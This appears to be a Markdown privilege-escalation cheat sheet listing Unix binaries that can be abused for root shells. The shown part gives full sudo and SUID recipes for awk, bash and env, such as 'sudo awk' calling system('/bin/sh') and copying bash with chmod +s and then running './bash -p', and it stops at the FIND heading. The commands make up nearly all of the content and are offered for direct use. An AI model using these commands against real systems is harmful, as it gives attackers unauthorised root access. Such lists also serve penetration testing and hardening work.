 [AWK](#AWK)
[BASH](#BASH)
[ENV](#ENV)
[FIND](#FIND)
[FTP](#FTP)
[LESS](#LESS)
[MAN](#MAN)
[MORE](#MORE)
[NANO](#NANO)
[NC](#NC)
[NMAP](#NMAP)
[PERL](#PERL)
[PYTHON](#PYTHON)
[RUN-PARTS](#RUN-PARTS)
[TAR](#TART)
[TIME](#TIME)
[VI](#VI)
[VIM](#VIM)
[ZIP](#ZIP)

# AWK
### SUDO
```
sudo awk 'BEGIN {system("/bin/sh")}'
```

### SUID
```
sudo sh -c 'cp $(which awk) .; chmod +s ./awk'

./awk 'BEGIN {system("/bin/sh")}'

```

# BASH
### SUDO
```
sudo bash
```
### SUID
```
sudo sh -c 'cp $(which bash) .; chmod +s ./bash'

./bash -p
```
# ENV
### SUDO
```
sudo env /bin/sh
```
### SUID
```
sudo sh -c 'cp $(which env) .; chmod +s ./env'

./env /bin/sh -p
```
# FIND